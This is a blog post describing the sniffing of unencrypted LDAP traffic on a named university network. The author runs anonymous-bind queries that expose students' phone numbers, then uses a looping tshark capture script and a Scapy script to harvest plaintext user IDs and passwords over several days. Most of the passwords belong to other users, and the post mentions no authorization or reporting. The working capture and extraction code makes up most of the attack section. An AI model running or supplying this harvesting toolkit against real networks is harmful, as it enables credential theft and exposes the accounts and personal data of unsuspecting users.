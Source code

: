 ```yaml
---
title: "Extracting Passwords in Plaintext by Sniffing LDAP Bind Requests"
description: In this blog, I’ll share how I retrieved plaintext passwords by intercepting unencrypted LDAP Bind Requests on a remote server where I gained root access.
date: 2024-09-28T07:09:31+05:30
image: assets/images/network_traffic_analysis.png
math: 
license: 
hidden: false
comments: true
draft: true
tags: ["cybersecurity", "infosec", "network", "sniffing", "tcpdump", "tshark", "wireshark", "ldap"]
categories: ["cybersecurity", "infosec", "network"]
---
```

## LDAP Servers on Network
I decided to investigate the LDAP servers within my institute's private network, which utilizes Class B private IP addresses.<br />
I employed [Gill-Singh-A/Port-Scanner](https://github.com/Gill-Singh-A/Port-Scanner) to scan for LDAP ports (389, 636, 3268, 3269) and discovered 49 devices with at least one of these ports open.<br />
![LDAP Port Scan](assets/images/port_scan.png)
## LDAP Anonymous Bind
Following that, I used [Gill-Singh-A/LDAP-Anonymous-Bind-Checker](https://github.com/Gill-Singh-A/LDAP-Anonymous-Bind-Checker) to assess LDAP Anonymous Bind support, finding that 32 devices allowed anonymous binding.<br />
![LDAP Anonymous Bind Check](assets/images/ldap_anonymous_bind_check.png)<br />
After some exploration, I discovered the LDAP server responsible for managing authentication requests for our Computer Center’s credentials.<br />
The server was identified by the hostname **ldap.cc.iitk.ac.in**, supported LDAP Anonymous Bind.
## Computer Center LDAP Server
After manually exploring **ldap.cc.iitk.ac.in**, I discovered that I could retrieve any student’s mobile number using a simple search query.<br />
![CC LDAP Student Information](assets/images/cc_ldap_student_info.png)<br />
However, what truly alarmed me was that the server was not utilizing SSL for data transmission over the network. This meant that all Computer Center credentials used for authenticating to services like Web Mail and SSH servers were being transmitted as plaintext, making them easily accessible to anyone intercepting the traffic.<br />
![LDAP Authentication](assets/images/ldap_authentication.png)
## Network Traffic Capture
To verify my suspicions, I launched **tcpdump** on a remote server at our institute where I had root access and where users can SSH in using their Computer Center credentials. I began intercepting the network traffic on that server. Specifically, I filtered for port 389 to capture only LDAP traffic.
```bash
sudo /usr/sbin/tcpdump -s 65535 -w network_traffic_capture.pcap 'tcp port 389'
```
After successfully logging into the server using my Computer Center credentials on another terminal, I stopped the network capture and downloaded the pcap file for further analysis.
## Network Traffic Analysis
After opening the pcap file in **Wireshark** and conducting some analysis, I was able to find my Computer Center user ID and password in plaintext within an LDAP Bind Request.<br />
![Network Traffic Analysis](assets/images/network_traffic_analysis.png)<br />
This confirmed my suspicions: the Computer Center credentials were indeed transmitted as plaintext.
## Capturing using tshark
Next, I created a simple bash script that utilized **tshark** to capture LDAP network traffic on the server and save it into a pcap file. The script processes the pcap file once it reaches 100 MB, filtering to include only LDAP Bind Requests and storing the results in my NFS (Network File System) Directory.
```bash
#! /bin/bash

index=0

while true; do
	/usr/sbin/tshark -w webhome.pcap -i 1 -f "tcp port 389" -a filesize:100000
	/usr/sbin/tshark -r webhome.pcap -R "frame contains \"ou=People,dc=iitk,dc=ac,dc=in\" and ldap.bindRequest" -w webhome_filtered_${index}.pcap
	chmod 600 webhome_filtered_${index}.pcap
	rm -f webhome.pcap
	((index++))
done
```
## Extracting Passwords from Capture File
After collecting LDAP Bind Requests for some days, I downloaded the processed capture file and created a simple Python script using [Scapy](https://scapy.net/) to extract the user IDs and their corresponding passwords. This allowed me to determine how many credentials I had successfully retrieved.
```python
#! /usr/bin/env python3

from sys import argv
from scapy.all import rdpcap, LDAP_BindRequest, TCP, LDAP
from colorama import Fore

packets = rdpcap(argv[1])              # argv[1] Network Capture File (.pcap)

for pkt in packets:
    if LDAP_BindRequest in pkt and pkt[TCP][LDAP][LDAP_BindRequest].authentication.val != b'':
        print(f"{Fore.CYAN}{pkt[TCP][LDAP][LDAP_BindRequest].bind_name.val.decode().split(',')[0].split('=')[1]}\t{Fore.RESET}=>\t{Fore.GREEN}{pkt[TCP][LDAP][LDAP_BindRequest].authentication.val.decode()}{Fore.RESET}")
```
The following was the output<br />
![Extraced Passwords](assets/images/passwords_extracted.png)<br />
## Conclusion
This investigation revealed significant security concerns regarding the transmission of sensitive data over unencrypted connections. It's crucial to implement proper security measures to protect user information in our digital landscape.<br />
As we navigate our digital landscape, it’s essential to ensure that proper security measures are in place to protect user information.
